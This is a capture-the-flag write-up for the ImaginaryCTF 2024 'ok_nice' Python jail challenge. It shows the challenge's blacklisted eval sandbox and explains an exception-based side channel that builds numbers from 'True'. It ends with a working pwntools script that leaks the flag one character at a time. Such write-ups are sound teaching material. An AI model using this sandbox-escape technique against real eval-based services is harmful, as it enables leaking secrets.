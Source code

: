## ImaginaryCTF 2024 ok_nice

```python
#!/usr/bin/env python3
flag = open('flag.txt').read()

print("Welcome to the jail! It is so secure I even have a flag variable!")
blacklist=['0','1','2','3','4','5','6','7','8','9','_','.','=','>','<','{','}','class','global','var','local','import','exec','eval','t','set','blacklist']
while True:
	inp = input("Enter input: ")
	for i in blacklist:
		if i in inp:
			print("ok nice")
			exit(0)
	for i in inp:
		if (ord(i) > 125) or (ord(i) < 40) or (len(set(inp))>17):
			print("ok nice")
			exit(0)
	try:
		eval(inp,{'__builtins__':None,'ord':ord,'flag':flag})
		print("ok nice")
	except:
		print("error")
```

Requirements:

1. No numbers: Use `True` as 1
2. Exception side channel: Use integer division by zero to guess each character
3. `len(set(input)) <= 17`: Reuse characters already appeared

Side channel: `1 // (ord(flag[index]) - i)` throws exception when `ord(flag[index]) == i`.

Attack script:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "ok_nice.py"])

flag = bytearray()
for index in range(1, 40):
    flag_index = "+".join(["True"] * index)
    for i in range(0x20, 0x7F):
        p.recvuntil(b"input: ")
        minus = "-".join(["True"] * i)
        p.sendline(f"True//(ord(flag[{flag_index}])-{minus})".encode())
        res = p.recvline().strip()
        if res == b"error":
            # zero
            flag.append(i)
            break
print(flag)
```
